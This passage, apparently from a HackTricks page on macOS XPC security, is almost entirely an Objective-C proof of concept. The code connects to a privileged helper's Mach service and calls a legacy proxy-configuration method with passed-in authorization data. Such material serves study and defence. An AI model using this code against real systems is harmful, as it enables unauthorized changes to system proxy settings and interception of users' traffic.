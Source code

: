 ```objectivec
NSXPCConnection *xpcConnection = [[NSXPCConnection alloc] initWithMachServiceName:serviceName options:0x1000];
NSXPCInterface *xpcInterface = [NSXPCInterface interfaceWithProtocol:@protocol(XPCHelperProtocol)];
[xpcConnection setRemoteObjectInterface:xpcInterface];
[xpcConnection resume];

// Handle errors for the XPC connection
id remoteProxy = [xpcConnection remoteObjectProxyWithErrorHandler:^(NSError *error) {
NSLog(@"[-] Connection error");
NSLog(@"[-] Error: %@", error);
}];

// Log the remote proxy and connection objects
NSLog(@"Remote Proxy: %@", remoteProxy);
NSLog(@"XPC Connection: %@", xpcConnection);

// Use the legacy method to configure the proxy
[remoteProxy legacyConfigureProxyWithAuthorization:authData enabled:isProxyEnabled host:proxyAddress port:proxyPort reply:^(NSError *error, BOOL success) {
NSLog(@"Response: %@", error);
}];

// Allow some time for the operation to complete
[NSThread sleepForTimeInterval:10.0f];

NSLog(@"Finished!");
}
```
## References

* [https://theevilbit.github.io/posts/secure\_coding\_xpc\_part1/](https://theevilbit.github.io/posts/secure\_coding\_xpc\_part1/)

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
